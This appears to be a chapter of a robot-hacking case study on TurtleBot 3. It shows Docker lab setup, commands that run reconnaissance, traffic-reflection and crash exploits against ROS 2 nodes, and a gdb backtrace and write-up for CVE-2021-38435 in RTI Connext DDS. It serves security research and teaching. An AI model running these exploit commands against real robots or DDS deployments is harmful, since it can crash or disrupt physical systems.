

\newpage

## TurtleBot 3 (TB3)

Building on top of the previous [ROS 2 case study](../2_ros2), this piece aims to demonstrate how ROS 2 vulnerabilities can be translated directly into complete robots and how attackers could exploit them.

### Dockerized environment
Like in previous cases, when possible, we'll facilitate a Docker-based environment so that you can try things out yourself! Here's this one:


```bash
# Build
docker build -t hacking_tb3:foxy --build-arg DISTRO=foxy .

# Run headless
docker run -it hacking_tb3:foxy -c "/bin/bash"

# Run headless with byobu config using both Fast-DDS and RTI's Connext
docker run -it hacking_tb3:foxy -c "/usr/bin/byobu -f /opt/configs/pocs_headless_connext.conf attach"

# Run headless sharing host's network
docker run -it --privileged --net=host hacking_tb3:foxy -c "/usr/bin/byobu -f /opt/configs/pocs_headless.conf attach"

# Run headless sharing host's network, and with some nodes launched using OpenDDS
docker run -it --privileged --net=host hacking_tb3:foxy -c "/usr/bin/byobu -f /opt/configs/pocs_headless_opendds.conf attach"


# Run, using X11
xhost + # (careful with this)
docker run -it -v /tmp/.X11-unix:/tmp/.X11-unix -e DISPLAY=$DISPLAY -v $HOME/.Xauthority:/home/xilinx/.Xauthority hacking_tb3:foxy -c "/usr/bin/byobu -f /opt/configs/pocs_connext.conf attach"

```

### Searching for TB3s around (reconnaissance)

```bash
python3 exploits/footprint.py 2> /dev/null
```

It'll find the CycloneDDS node `teleop_keyboard`, which respond to the crafted package and identify the corresponding endpoint.


### Messing up with TB3's traffic


```bash
python3 exploits/reflection.py 2> /dev/null
```


### Crashing TB3s running DDS's "best in the world"

This section will exploit CVE-2021-38435, which RTI [forgot to credit back](https://community.rti.com/kb/ics-cert-security-notice-ics-vu-575352-vu770071). We found the following:

| CVE ID | Description | Scope    |  CVSS    | Notes  |
|--------|-------------|----------|----------|--------|
| CVE-2021-38435 | RTI Connext DDS Professional, Connext DDS Secure Versions 4.2x to 6.1.0, and Connext DDS Micro Versions  3.0.0 and later do not correctly calculate the size when allocating the buffer, which may result in a buffer  overflow | ConnextDDS, ROS 2<sub>*</sub>   | [8.6](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:H/E:P/RL:O/RC:C/CR:M/AR:H) | Segmentation fault via network   [>= 6.1.0](https://community.rti.com/kb/ics-cert-security-notice-ics-vu-575352-vu770071) |

The interest of this flaw is that it somewhat shows how easy it is to compromise the *best in the world* DDS solution:




```bash
Thread 6 "talker" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffb9f7fe700 (LWP 497)]
0x00007ffba68e9cbb in RTICdrStream_skipStringAndGetLength ()
--Type <RET> for more, q to quit, c to continue without paging--
  .1/lib/x64Linux3gcc5.4.0/libnddscore.so
(gdb) bt
#0  0x00007ffba68e9cbb in RTICdrStream_skipStringAndGetLength () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#1  0x00007ffba65bf590 in DISCBuiltin_getDataHolderDeserializedSize () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#2  0x00007ffba65c03db in DISCBuiltin_deserializeDataHolder () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#3  0x00007ffba65a549a in DISCBuiltinTopicParticipantDataPlugin_deserializeParameterValue () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#4  0x00007ffba65eb427 in PRESTypePlugin_deserializeParameterSequence () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#5  0x00007ffba65a5712 in DISCBuiltinTopicParticipantDataPlugin_deserialize () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#6  0x00007ffba665b608 in PRESCstReaderCollator_storeSampleData () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#7  0x00007ffba6680605 in PRESCstReaderCollator_newAnonData () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#8  0x00007ffba672904a in PRESPsService_readerSampleListenerOnNewDataAnon () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#9  0x00007ffba688a267 in COMMENDAnonReaderService_onSubmessage () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#10 0x00007ffba689c8b4 in MIGInterpreter_parse () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#11 0x00007ffba6820725 in COMMENDActiveFacadeReceiver_loop () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#12 0x00007ffba69b894a in RTIOsapiThreadChild_onSpawned () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#13 0x00007ffba776b609 in start_thread (arg=<optimized out>) at pthread_create.c:477
#14 0x00007ffba78a7293 in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
```


<!-- Elaborate on this -->

Vulnerability Title

Segmentation Fault while receiving malformed packet in RTI Connext DDS
High-level overview of the vulnerability and the possible effect of using it

Serializer in RTI would segmentation fault while receiving a malformed form of packet. This would cause runtimes to exit immediately and causing an denial of service.
Detailed description of the vulnerability

RTICdrStream_skipStringAndGetLength does not check for any type of malformed packet, thus while using results from RTICdrStream_align, it will commit a segmentation fault.
How did you find this vulnerability?

afl-unicorn
Can you identify exploitability?

DoS
Can you identify root cause?

RTICdrStream_skipStringAndGetLength does not check for any type of malformed packet, thus while using results from RTICdrStream_align, it will commit a segmentation fault. We compiled test programs in static mode, gcc5.4, Linux 3, C. Both publisher and subscriber is affected.


### Crashing a simple ROS 2 Node with RTI's Connext DDS
Here's a simpler PoC that launches a ROS 2 publisher which is then crashed by also exploiting CVE-2021-38435:

[](https://asciinema.org/a/451837)

```bash
# split 1
docker run -it hacking_tb3:foxy -c "/bin/bash"
RMW_IMPLEMENTATION=rmw_connext_cpp ros2 run demo_nodes_cpp talker

# split 2
sudo python3 exploits/crash_connext.py 2> /dev/null
```
